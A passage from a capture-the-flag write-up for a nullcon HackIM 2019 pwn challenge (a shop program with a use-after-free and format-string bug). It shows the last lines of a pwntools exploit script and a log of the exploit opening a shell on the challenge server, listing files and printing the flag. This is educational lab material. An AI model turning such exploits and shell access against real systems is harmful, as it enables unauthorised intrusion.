 ```
target.sendline('2')
target.sendline('7')

# Drop to an interactive shell
target.interactive()
```

and when we run the remote exploit:

```
$ python exploit.py
[+] Opening connection to pwn.ctf.nullcon.net on port 4002: Done
NullCon Shop
(1) Add book to cart
(2) Remove from cart
(3) View cart
(4) Check out

. . .

$ w
 18:51:13 up 7 days,  3:10,  0 users,  load average: 0.03, 0.13, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
challenge
flag
$ cat flag
hackim19{h0p3_7ha7_Uaf_4nd_f0rm4ts_w3r3_fun_4_you}
$ w
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to pwn.ctf.nullcon.net port 4002
```

Just like that, we get the flag `hackim19{h0p3_7ha7_Uaf_4nd_f0rm4ts_w3r3_fun_4_you}`



